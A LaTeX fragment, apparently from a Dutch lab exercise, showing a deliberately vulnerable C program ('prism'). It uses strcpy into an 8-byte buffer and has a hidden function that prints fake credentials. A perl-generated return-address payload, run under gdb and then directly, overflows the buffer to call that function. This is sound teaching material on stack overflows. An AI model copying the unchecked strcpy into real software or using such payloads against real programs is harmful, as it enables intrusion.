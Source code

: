 \begin{enumerate}
\begin{enumerate}
  		\begin{enumerate}
  		\item Segmentation fault
  		\end{enumerate}
  	\item (gdb) run ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
  		\begin{enumerate}
  		\item Succes!
  		\end{enumerate}
  	\end{enumerate}
  \item ./prism ``maaktnietuit'' ``\$(perl -e `print ``\textbackslash{}x91\textbackslash{}x84\textbackslash{}x04\textbackslash{}x08''x4')''
\end{enumerate}

\begin{lstlisting}
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc, char *argv[]){
	if(argc != 3){
		printf("Error: %s <IP-address> <password> required\n", argv[0]);
		exit(0);
	}

	if(make_connection(argv[1], argv[2]) == 0){
		printf("\nMaking connection...\n");
		printf("====================\n");
		printf("\nConnection failed!\n");
		exit(0);
	}
}

int make_connection(char *ip, char *pass){
	char pw[8];
	int return_val = 0;

	strcpy(pw, pass);

	return return_val;
}

int gegevens(){
	printf("\nNSA\n");
	printf("*********\n");
	printf("Name Password\n");
	printf("------- -----------\n");
	printf("Frans Bauer fRanske123\n");
	printf("Lorrie Popovich loPo007\n");
	printf("Hello Kitty yttikolleh\n");
	printf("Klok Kenluider ringring00\n");

	return(0);
}
\end{lstlisting}
